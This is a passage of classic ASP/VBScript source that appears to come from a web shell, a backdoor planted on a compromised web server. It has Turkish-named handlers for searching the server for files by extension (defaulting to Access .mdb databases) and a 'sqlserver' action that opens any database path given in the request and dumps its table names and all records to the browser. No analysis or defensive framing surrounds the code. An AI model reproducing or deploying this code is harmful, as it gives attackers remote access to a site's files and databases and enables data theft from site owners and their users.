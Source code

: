             Response.Write "&lt;table border=1 cellpadding=2 cellspacing=0 bordercolor=543152&gt;&lt;tr bgcolor=silver&gt;"
            for i=0 to objRcs.Fields.count-1
                Response.Write "&lt;td&gt;&lt;font color=black&gt;&lt;b&gt;&nbsp;&nbsp;&nbsp;"&objRcs.Fields(i).Name&"&nbsp;&nbsp;&nbsp;&lt;/font&gt;&lt;/td&gt;"
            next
            Response.Write "&lt;/tr&gt;"
            do while not objRcs.EOF
                Response.Write "&lt;tr&gt;"
                for i=0 to objRcs.Fields.count-1
                    Response.Write "&lt;td&gt;"&objRcs.Fields(i).Value&"&nbsp;&lt;/td&gt;"
                next
                Response.Write "&lt;/tr&gt;"
                objRcs.MoveNext
            loop
            Response.Write "&lt;/table&gt;&lt;br&gt;"
         case "12": araBul Trim(Request.Form("path")),Trim(Request.Form("arama"))
        END SELECT
     Else
        showdisks=FALSE
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write "&lt;form method=""post"" target=""_opener"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=search""&gt;"
        Response.Write "&lt;table widht='100%' border=0 cellpadding=0 cellspacing=0&gt;&lt;tr&gt;&lt;td width=70&gt;&lt;font size=2&gt;File Ext: &lt;/td&gt;&lt;td&gt;"
        Response.Write "&nbsp;&lt;input type=hidden value='12' name=status&gt;"
        Response.Write "&lt;input type=hidden value=""" & Replace(Trim(Request.QueryString("path")),"|","\") & """ name=""path""&gt;&lt;input style='width:250' value='mdb' name='arama'&gt;&lt;input style='width:70; height:22' type=submit value='Search' name='submit1'&gt;"
        Response.Write "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/form&gt;"
    End IF
    Case "sqlserver"
         If (Trim(Request.Form("submit1")) = "Execute SQL Server Command") xor Trim(Request.QueryString("status"))&lt;&gt;"" Then
          showdisks=FALSE
       status5=Trim(Request.Form("status"))
      if status5="" then status5=Trim(Request.QueryString("status"))
           SELECT CASE status5
           CASE "7":
            Response.Write "&lt;b&gt;&lt;font size=3&gt;Tables&lt;/font&gt;&lt;/br&gt;&lt;br&gt;"
            Set objConn = Server.CreateObject("ADODB.Connection")
            Set objADOX = Server.CreateObject("ADOX.Catalog")
            objConn.Provider = "Microsoft.Jet.Oledb.4.0"
            objConn.ConnectionString = Trim(Request.QueryString("path"))
            objConn.Open
            objADOX.ActiveConnection = objConn
            For Each table in objADOX.Tables
                If table.Type = "TABLE" Then
                    Response.Write "&lt;font face=wingdings size=5&gt;4&lt;/font&gt; &lt;a href='"& Request.ServerVariables("SCRIPT_NAME") &"?action=search&status=8&Path="& Trim(Request.QueryString("path")) &"&table="&table.Name&"'&gt;"&table.Name&"&lt;/a&gt;&lt;br&gt;"
                End If
            Next
        CASE "8":
            table=Trim(Request.QueryString("table"))
            Response.Write "&lt;font color=red&gt;&lt;h4&gt;Table Name: " & table & "&lt;/h4&gt;&lt;/font&gt;&lt;br&gt;&lt;Br&gt;&lt;br&gt;"
            Set objConn = Server.CreateObject("ADODB.Connection")
            Set objRcs = Server.CreateObject("ADODB.RecordSet")
            objConn.Provider = "Microsoft.Jet.Oledb.4.0"
            objConn.ConnectionString = Trim(Request.QueryString("path"))
            objConn.Open
            objRcs.Open table,objConn, adOpenKeyset , , adCmdText